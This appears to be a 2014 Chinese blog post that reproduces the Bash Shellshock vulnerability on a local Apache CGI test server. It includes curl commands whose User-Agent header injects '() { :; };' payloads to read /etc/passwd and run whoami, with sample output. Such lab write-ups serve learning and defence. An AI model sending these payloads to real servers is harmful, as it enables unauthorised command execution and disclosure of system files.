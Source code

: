 ```yaml
---
title: "Bash shock 安全漏洞"
date: 2014-09-25T00:00:00+08:00
draft: false
aliases: [/posts/Bash-shock-安全漏洞.html]
description: 昨天从微信上面，看到朋友发的最新的 bash 漏洞信息，感觉真的很可怕，现在互联网公司几乎都有使用到 bash。现在我来带领大家实践一下使用这个漏洞的过程。
tags: ["工作"]
---
```


昨天从微信上面，看到朋友发的最新的 bash 漏洞信息，感觉真的很可怕，现在互联网公司几乎都有使用到 bash。现在我来带领大家实践一下使用这个漏洞的过程。

### 使 Apache 支持 Bash CGI

首先要确认 Apache 里面的 CGI 模块已经被载入 在 httpd.conf 里面有一句：`LoadModule cgi_module modules/mod_cgi.so` 这个必须有，然后搜索 cgi-bin 如果没有的话添加一段 `ScriptAlias /cgi-bin/ "/var/www/cgi-bin"`

### 测试 bash cgi Hello world

编辑文件：`$ vim /var/www/cgi-bin/hello.cgi`

~~~bash
#!/bin/bash
echo Content-type: text/html
echo ""
echo Hello, world.
~~~

执行以下命令：

~~~bash
$ chmod 755 /var/www/cgi-bin/hello.cgi`
$ curl localhost/cgi-bin/hello.cgi
输出以下内容则代表Apache已经支持CGI了，就可以继续我们下面的测试
Hello, world.
~~~

### 最可怕的测试

~~~bash
$ curl -A "() { :; }; echo ; /bin/cat /etc/passwd" http://localhost/cgi-bin/hello.cgi
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
adm:x:3:4:adm:/var/adm:/bin/false
lp:x:4:7:lp:/var/spool/lpd:/bin/false
... ...

$ curl -A "() { :; }; echo ; /usr/bin/whoami" http://localhost/cgi-bin/hello.cgi
apache
~~~

有牛人对这个漏洞进行了分析，本人表示看不懂，可以看一下
[Bash 3.0-4.3命令执行漏洞分析（by@知道创宇 lu4nx）](http://weibo.com/p/1001603758737234992740)


modifyed
